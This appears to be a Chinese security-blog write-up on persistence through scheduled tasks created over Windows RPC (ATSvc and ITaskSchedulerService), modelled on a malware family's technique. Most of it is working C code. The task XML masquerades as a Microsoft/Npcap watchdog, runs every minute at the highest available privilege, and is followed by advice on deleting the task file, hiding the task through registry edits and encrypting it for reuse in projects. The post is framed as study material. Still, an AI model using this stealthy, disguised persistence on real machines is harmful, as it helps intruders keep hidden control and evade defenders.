# 基于RPC的计划任务维权分析学习-先知社区

> **来源**: https://xz.aliyun.com/news/18022  
> **文章ID**: 18022

---

# 前言

前几天看见一篇文章<https://www.anquanke.com/post/id/301843> 说银狐直接通过读写命名管道创建计划任务 然后就学习了一下相关手法

不是很熟悉RPC这块 有错误见谅

# ATSvc

先看看at 虽然高版本windwos下没用

[ATSvc](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/4d44c426-fad2-4cc7-9677-bfcd235dca33) 在高版本要EnableAt为1才可用



<https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/fbab083e-f79f-4216-af4c-d5104a913d40>

uuid可以在msdn查到



## 编译idl

从msdn和reactos上抄idl下来编译

<https://doxygen.reactos.org/df/d66/atsvc_8idl_source.html>

<https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/24637f2d-238b-4d22-b44d-fe54b024280c>

创建两个idl文件 vs直接编译 编译出两套.h .c文件



然后修复一下这些文件 里面的include语句和编译出来的文件对不上 手动改一下



然后编译 哪儿报错删哪儿 直到没有编译报错

然后解决链接报错 应该有三四个问题

#pragma comment(lib,"Rpcrt4.lib") 解决NdrClientCall3等函数链接问题

MIDL\_user\_allocate和MIDL\_user\_free的话自己定义一下

```
void* __RPC_USER MIDL_user_allocate(size_t size) {
     return malloc(size);
 }
 
 void __RPC_USER MIDL_user_free(void* p) {
     free(p);
 }
```


同样自己定义

```
extern "C" handle_t ATSVC_HANDLE_bind(ATSVC_HANDLE ServerName){
     RPC_WSTR StringBinding;
     handle_t BindingHandle;
     RPC_SECURITY_QOS SecurityQOS = { 0 };
 
     RpcStringBindingComposeW(
         (RPC_WSTR)UUID,
         (RPC_WSTR)L"ncacn_np",
         (RPC_WSTR)L"localhost",
         (RPC_WSTR)InterfaceAddress,
         NULL,
         &StringBinding);
 
     RpcBindingFromStringBindingW(StringBinding, &BindingHandle);
 
     SecurityQOS.Version = 1;
     SecurityQOS.ImpersonationType = RPC_C_IMP_LEVEL_IMPERSONATE;
     SecurityQOS.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
     SecurityQOS.IdentityTracking = RPC_C_QOS_IDENTITY_STATIC;
 
     RpcBindingSetAuthInfoExW(
         BindingHandle,
         NULL,
         RPC_C_AUTHN_LEVEL_PKT_PRIVACY,
         RPC_C_AUTHN_WINNT,
         NULL,
         RPC_C_AUTHZ_NONE,
         &SecurityQOS);
 
     RpcStringFreeW(&StringBinding);
 
     return BindingHandle;
 }
 
 extern "C" void ATSVC_HANDLE_unbind(ATSVC_HANDLE ServerName, handle_t BindingHandle){
     RpcBindingFree(&BindingHandle);
 }
```

在编译成功后将idl文件移除项目 防止重复编译

```
void AddRemoteJob() {
     RPC_BINDING_HANDLE bindingHandle = NULL;
     DWORD jobId = 0;
 
     RPC_STATUS status = RpcBindingFromStringBindingW(
         (RPC_WSTR)L"ncacn_np:localhost[\pipe\atsvc]",
         &bindingHandle
     );
 
     if (status != RPC_S_OK) {
         wprintf(L"[!] RpcBindingFromStringBindingW failed: %d
", status);
         return;
     }
 
     RPC_SECURITY_QOS qos = { 0 };
     qos.Version = 1;
     qos.ImpersonationType = RPC_C_IMP_LEVEL_IMPERSONATE;
     qos.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
     qos.IdentityTracking = RPC_C_QOS_IDENTITY_STATIC;
     RpcBindingSetAuthInfoExW(bindingHandle, NULL, RPC_C_AUTHN_LEVEL_PKT_PRIVACY,
         RPC_C_AUTHN_WINNT, NULL, RPC_C_AUTHZ_NONE, &qos);
 
     AT_INFO job = { 0 };
     SYSTEMTIME st;
     GetLocalTime(&st);
 
     job.JobTime = ((st.wHour * 3600) + (st.wMinute * 60) + (st.wSecond) + 60) * 1000;;
     job.DaysOfMonth = 0;
     job.DaysOfWeek = 0;
     job.Flags = 0x08;  
     job.Command = _wcsdup(L"calc.exe");
 
     DWORD result = NetrJobAdd((ATSVC_HANDLE)bindingHandle, &job, &jobId);
 
     if (result == 0) {
         wprintf(L"[+] Task added successfully, Job ID: %u
", jobId);
     }
     else {
         wprintf(L"[-] NetrJobAdd failed: %lu
", result);
     }
 
     RpcBindingFree(&bindingHandle);
 }
```

这样就可以在win8以下的机器跑起来了(一分钟后执行calc.exe) 非交互的 不会弹窗 但是可以通过进程观察到calc.exe执行

这里上个线明显一点


不适用于win10 即使在注册表中设置了EnableAt为1 可以正常的通过at创建计划任务 但是并不会执行



可以看见跑不起来


意义不大

# ITaskSchedulerService

大同小异 先更换对应的GUID

#define UUID L"86D35949-83C9-4044-B424-DB363231FD0C"

然后使用msdn的idl重新编译对应的.h .c文件

<https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/96c9b399-c373-4490-b7f5-78ec3849444e>

需要一个xml 模板见MSDN

<https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-tsch/c5ac10cd-ba05-4c13-b6be-d0068ecc3b1f>

解释一下这里的字段

## 字段解释

大部分都是见名知意的

RegistrationInfo 描述作者 描述信息等信息

Triggers 触发器 用于控制触发条件 可以按时间 也可以按操作 例如

```
<Triggers
     <TimeTrigger id="Trigger1">
         <Repetition>
             <Interval>PT10M</Interval>
             <StopAtDurationEnd>false</StopAtDurationEnd>
         </Repetition>
         <StartBoundary>2005-01-01T12:05:00</StartBoundary>
         <Enabled>true</Enabled>
     </TimeTrigger>
 </Triggers>
```

PT 前缀 M 代表分钟 10 长度 即每隔10分钟触发一次

StartBoundary 启动时间

Settings 执行策略 一些控制项

|  |  |
| --- | --- |
| **字段** | **说明** |
| MultipleInstancesPolicy | 如果任务还在运行，新任务如何处理：IgnoreNew 表示忽略新实例 |
| DisallowStartIfOnBatteries | 电池供电时禁止运行 |
| StopIfGoingOnBatteries | 切换到电池电源时停止运行 |
| AllowHardTerminate | 是否允许强制终止任务 |
| IdleSettings | 空闲时的执行设置 |
| AllowStartOnDemand | 允许用户或系统手动运行 |
| Hidden | 是否隐藏任务 |
| RunOnlyIfIdle | 仅在系统空闲时运行 |
| WakeToRun | 唤醒计算机以运行 |
| ExecutionTimeLimit | 最大运行时间，PT72H 表示 72 小时 |
| Priority | 优先级（0~10，越小越高） |

Actions 要做的操作

Principals 权限

如

```
<Principals>
   <Principal id="Author">
     <UserId>xxxxxxxxxxxx</UserId>
     <LogonType>InteractiveToken</LogonType>
     <RunLevel>LeastPrivilege</RunLevel>
   </Principal>
 </Principals>
```

InteractiveToken 当前登录用户 不需要提供密码

LeastPrivilege 普通权限

## 实现

首先要获取sid 拼接出xml

```
wchar_t* ConvertSidToWideStringSid(PSID sid)
 {
     LPSTR strSid = NULL;
     if (!ConvertSidToStringSidA(sid, &strSid))
     {
         wprintf(L"[!] ConvertSidToStringSidA failed: %d
", GetLastError());
         return NULL;
     }
 
     int len = MultiByteToWideChar(CP_ACP, 0, strSid, -1, NULL, 0);
     if (len == 0)
     {
         wprintf(L"[!] MultiByteToWideChar size failed: %d
", GetLastError());
         LocalFree(strSid);
         return NULL;
     }
 
     wchar_t* wSid = (wchar_t*)malloc(len * sizeof(wchar_t));
     if (!wSid)
     {
         wprintf(L"[!] malloc failed
");
         LocalFree(strSid);
         return NULL;
     }
 
     if (MultiByteToWideChar(CP_ACP, 0, strSid, -1, wSid, len) == 0)
     {
         wprintf(L"[!] MultiByteToWideChar conversion failed: %d
", GetLastError());
         free(wSid);
         LocalFree(strSid);
         return NULL;
     }
 
     LocalFree(strSid);
     return wSid;  
 }
 wchar_t* BuildTaskXml(const wchar_t* commandPath)
 {
     static wchar_t xmlBuffer[4096];
 
     char userName[256] = "";
     DWORD nameSize = sizeof(userName);
     GetUserNameA(userName, &nameSize);
 
     BYTE sid[256] = {};
     DWORD sidSize = sizeof(sid);
     char domain[256] = "";
     DWORD domainSize = sizeof(domain);
     SID_NAME_USE sidType;
 
     if (!LookupAccountNameA(NULL, userName, sid, &sidSize, domain, &domainSize, &sidType))
     {
         wprintf(L"[!] LookupAccountNameA failed: %d
", GetLastError());
         return NULL;
     }
 
     wchar_t* wideSid = ConvertSidToWideStringSid(sid);
 
 
     // 拼接 XML
     swprintf(xmlBuffer, 4096,
         L"<?xml version="1.0" encoding="UTF-16"?>
"
         L"<Task version="1.3" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
"
         L"  <RegistrationInfo>
"
         L"    <Author>Microsoft Corporation</Author>
"
         L"    <Description>Ensure Npcap service is configured to start at boot</Description>
"
         L"    <URI>\Microsoft Corporation</URI>
"
         L"  </RegistrationInfo>
"
         L"  <Triggers>
"
         L"    <TimeTrigger id="Trigger1">
"
         L"      <Repetition>
"
         L"        <Interval>PT1M</Interval>
"
         L"        <StopAtDurationEnd>false</StopAtDurationEnd>
"
         L"      </Repetition>
"
         L"      <StartBoundary>2005-01-01T12:05:00</StartBoundary>
"
         L"      <Enabled>true</Enabled>
"
         L"    </TimeTrigger>
"
         L"  </Triggers>
"
         L"  <Settings>
"
         L"    <MultipleInstancesPolicy>IgnoreNew</MultipleInstancesPolicy>
"
         L"    <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
"
         L"    <StopIfGoingOnBatteries>false</StopIfGoingOnBatteries>
"
         L"    <AllowHardTerminate>true</AllowHardTerminate>
"
         L"    <StartWhenAvailable>false</StartWhenAvailable>
"
         L"    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
"
         L"    <IdleSettings>
"
         L"      <Duration>PT10M</Duration>
"
         L"      <WaitTimeout>PT1H</WaitTimeout>
"
         L"      <StopOnIdleEnd>false</StopOnIdleEnd>
"
         L"      <RestartOnIdle>false</RestartOnIdle>
"
         L"    </IdleSettings>
"
         L"    <AllowStartOnDemand>true</AllowStartOnDemand>
"
         L"    <Enabled>true</Enabled>
"
         L"    <Hidden>false</Hidden>
"
         L"    <RunOnlyIfIdle>false</RunOnlyIfIdle>
"
         L"    <WakeToRun>false</WakeToRun>
"
         L"    <ExecutionTimeLimit>PT72H</ExecutionTimeLimit>
"
         L"    <Priority>7</Priority>
"
         L"  </Settings>
"
         L"  <Actions Context="Author">
"
         L"    <Exec>
"
         L"      <Command>%s</Command>
"
         L"    </Exec>
"
         L"  </Actions>
"
         L"  <Principals>
"
         L"    <Principal id="Author">
"
         L"      <UserId>%s</UserId>
"
         L"      <LogonType>InteractiveToken</LogonType>
"
         L"      <RunLevel>HighestAvailable</RunLevel>
"
         L"    </Principal>
"
         L"  </Principals>
"
         L"</Task>
",
         commandPath, wideSid);
 
     return xmlBuffer;
 }
```

其它 <https://learn.microsoft.com/zh-cn/windows/win32/taskschd/task-scheduler-objects>

然后就和at差不多了

```
RPC_BINDING_HANDLE BindtoRpc()
 {
     RPC_WSTR StringBinding;
     RPC_BINDING_HANDLE bindingHandle;
     RPC_SECURITY_QOS qos = { 0 };
 
     RpcStringBindingComposeW((RPC_WSTR)UUID, (RPC_WSTR)L"ncacn_np", (RPC_WSTR)L"localhost", (RPC_WSTR)InterfaceAddress, NULL, &StringBinding);
 
     RPC_STATUS status = RpcBindingFromStringBindingW(StringBinding, &bindingHandle);
 
     if (status != RPC_S_OK) {
         wprintf(L"[!] RpcBindingFromStringBindingW failed: %d
", status);
         return NULL;
     }
 
     qos.Version = 1;
     qos.ImpersonationType = RPC_C_IMP_LEVEL_IMPERSONATE;
     qos.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
     qos.IdentityTracking = RPC_C_QOS_IDENTITY_STATIC;
     RpcBindingSetAuthInfoExW(bindingHandle, NULL, RPC_C_AUTHN_LEVEL_PKT_PRIVACY,
         RPC_C_AUTHN_WINNT, NULL, RPC_C_AUTHZ_NONE, &qos);
 
     RpcStringFreeW(&StringBinding);
 
     return bindingHandle;
 }
 
 
 VOID AddRemoteJob(RPC_BINDING_HANDLE handle,const wchar_t* cmd) {
 
     wchar_t* actualPath = NULL;
     TASK_XML_ERROR_INFO* errorInfo = NULL;
 
     wchar_t* xmlData = BuildTaskXml(cmd);
 
     HRESULT status = SchRpcRegisterTask(handle, L"\
pcapvvatchdog", xmlData, TASK_CREATE, NULL, 0, 0, NULL, &actualPath, &errorInfo);
 
 
 }
 
 int main() {
     AddRemoteJob(BindtoRpc(), L"C:\Windows\System32\calc.exe");
 
     return 0;
 }
```







# 思考

## SchRpcRegisterTask

更进一步的 我们不使用SchRpcRegisterTask

SchRpcRegisterTask会调用RPCRT4!NdrClientCall3 将参数序列化并发送RPC请求 我们下断NdrClientCall3 看看参数怎么填



第二个参数比较明显 opcode 1 对应SchRpcRegisterTask

我们追一下第一个参数哪儿来的

idl编译出来的






之后的参数以此传入即可

然后发现.c里面是有说明的 分析的很小丑



那很显然这块应该是说错了



## 读写管道

这块没研究出来 网上的文章都是基于MS\_SCMR的 好像不用认证

直接通过读写管道来操作

先从<https://www.x86matthew.com/view_post?id=create_svc_rpc>

这有对应的封包函数 MS\_SCMR相关的

尝试着改改拿来用 bind没问题 但是和直接抓包的得到明显不一样







pRpcResponseBaseHeader->bPacketType 会返回3(falut)



应该是要bind完要AUTH3 感兴趣的师傅可以研究研究

## 优化

计划任务的创建会在%SystemRoot%\System32\Tasks 留下相关文件 里面记录了相关的配置信息

该xml文件的存在与否不影响计划任务的生效

再把常规计划任务隐藏的哪些东西缝进来(修改注册表对应的index SD值)

这块就不赘述了

大概就是这么个东西 做一下编译时加密就能缝进项目里用了 完整代码见

<https://github.com/Arcueld/RPC-schtasks>

# 参考

<https://www.anquanke.com/post/id/301843>

<https://www.x86matthew.com/view_post?id=create_svc_rpc>
